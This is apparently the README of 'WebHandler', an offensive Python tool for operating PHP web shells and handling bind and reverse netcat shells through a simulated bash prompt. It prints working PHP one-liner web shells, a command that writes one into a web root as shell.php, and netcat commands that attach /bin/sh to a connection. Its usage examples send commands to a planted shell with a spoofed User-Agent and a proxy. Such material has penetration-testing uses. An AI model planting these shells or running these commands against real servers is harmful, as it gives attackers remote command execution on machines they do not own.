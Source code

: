 # WebHandler #
## _A handler for PHP system functions & also an alternative 'netcat' handler_ ##
---
![My image](http://s12.postimage.org/t5ujo2om5/Untitled_1.png)

### Info ###
---
WebHandler tries to simulate a 'Linux bash prompt' to handle and process:

    - PHP program execution functions _(e.g. `system`, `passthru`, `exec`, etc)_
    - Bind shell connections _(e.g. `nc <ip> <port>`)_
    - Reserve shell connections _(e.g. `nc -lvvp 1234`)_

Another feature is to spoof the "User-Agent" field in the HTTP header. (`--random-angent`)
It also supports HTTP proxies (`--proxy http://<ip>:<port>`)

* WebHandler works for **POST** and **GET** requests:
    - `<?php system($_GET['cmd']); ?>`
    - `<?php passthru($_REQUEST['cmd']); ?>`
    - `<?php echo exec($_POST['cmd']); ?>`

* WebHandler is a replacement for netcat connections
    A example bind connection (_e.g. `nc -lvvp 1234 -e /bin/sh`_)

    Normally the user would do:
    - `netcat -l -p 1234`
    - `nc -lvvp 1234`
    
    A example reverse connection (_e.g. `nc 127.0.0.1 4321 -e /bin/sh`_)

    Normally the user would do:
    - `netcat -l -p 4321`
    - `nc -lvvp 4321`

### Usage ###
---
* --Example file:
    - `echo '<?php system($_GET['cmd']); ?>' > /var/www/shell.php`

* --url is a required argument when sending either GET or POST requests _(e.g. a bind 'web based PHP' connection)_:
    - `python webhandler.py --url http://www.mywebsite.com/shell.php?cmd=`
    - `python webhandler.py --url http://www.mywebsite.com/shell.php --method POST --parameter cmd`
    - `python webhandler.py -u http://www.mywebsite.com/shell.php?cmd= --random-agent --turbo`
    - `python webhandler.py -u http://www.mywebsite.com/shell.php?cmd= --proxy http://127.0.0.1:8080`

* --listen is a required argument when working waiting connection _(e.g. a reverse 'raw' connection)_:
    - `python webhandler.py --listen 1234`

### Dependencies
---
If your [Python][]'s version < 2.7.x, then [argparse][] **is required**
To install it run: `sudo (apt-get|yum) install python-setuptools && sudo easy_install argparse` **OR** `sudo pip --install argparse`.

[readline][] **is optional**.
This module it used to provide elaborate line editing and history features

[git][] **is optional**.
This allows for the project to be kept up-to-date

### Links
---
[Wiki][]

[Known Bugs][]

[Python]: http://www.python.org/download/
[argparse]: http://docs.python.org/library/argparse.html
[readline]: http://cnswww.cns.cwru.edu/php/chet/readline/rltop.html
[git]: http://git-scm.com
[Wiki]: https://github.com/lnxg33k/webhandler/wiki
[Known Bugs]: https://github.com/lnxg33k/webhandler/issues

